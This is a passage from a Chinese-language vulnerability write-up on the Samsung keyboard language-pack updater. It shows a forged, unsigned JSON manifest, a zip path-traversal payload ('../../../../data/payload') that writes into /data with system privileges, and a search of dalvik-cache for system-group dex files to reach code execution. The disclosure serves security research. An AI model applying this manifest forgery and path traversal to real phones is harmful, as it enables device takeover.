 服务器会返回一个列表包括语言/url/sha1,英语的 payload 如下:

	{
	         "name": "English (US)",
	         "language": "en",
	         "country": "US",
	         "sha1": "3b98ee695b3482bd8128e3bc505b427155aba032",
	         "version": 13,
	         "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/en_US.zip",
	         "live": {
	           "sha1": "b846a2433cf5fbfb4f6f9ba6c27b6462bb1a923c",
	           "version": 1181,
	           "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/ll_en_US.zip"
	         }
	       }
		   
之前所修改的压缩包的SHA1并没有在此配置文件中.配置文件也并没有进行安全的传输(加密/签名...),所以如果计算好 SHA1后伪造一个配置文件即可绕过上面的效验了.尝试在 payload 中加入目录遍历来达到写入/data/.目录的目的 (此目录需要 system 权限访问).

payload 如下:

	➜  samsung_keyboard_hax  unzip -l evil.zip 
	       Archive:  evil.zip
	         Length      Date    Time    Name
	       ---------  ---------- -----   ----
	               5  2014-08-22 18:52   ../../../../../../../../data/payload
	       ---------                     -------
	               5                     1 file
				   

做了如上尝试后成功写入文件

	➜  samsung_keyboard_hax  adbx shell su -c "ls -l /data/payload"
	       -rw------- system   system          5 2014-08-22 16:07 payload
 
## File write to code execution

---

现在我们有了 system user 的任意写入权限.下一个目标就是将写权限变成代码执行.Swift 输入法自身目录并没有可执行的二进制文件供我们覆盖.所以得另寻它处.

再对dex文件进行优化之后,文件会缓存到/data/dalvik-cache/目录下.此目录下所有文件为 system user 权限.现在需要寻找system组的文件,这样就可以通过system user权限执行.

root@kltevzw:/data/dalvik-cache # /data/local/tmp/busybox find . -type f -group 1000
       ./system@framework@colorextractionlib.jar@classes.dex
       ./system@framework@com.google.android.media.effects.jar@classes.dex
       ./system@framework@com.google.android.maps.jar@classes.dex
       ./system@framework@VZWAPNLib.apk@classes.dex
       ./system@framework@cneapiclient.jar@classes.dex
       ./system@framework@com.samsung.device.jar@classes.dex
       ./system@framework@com.quicinc.cne.jar@classes.dex
       ./system@framework@qmapbridge.jar@classes.dex
       ./system@framework@rcsimssettings.jar@classes.dex
       ./system@framework@rcsservice.jar@classes.dex
       ./system@priv-app@DeviceTest.apk@classes.dex
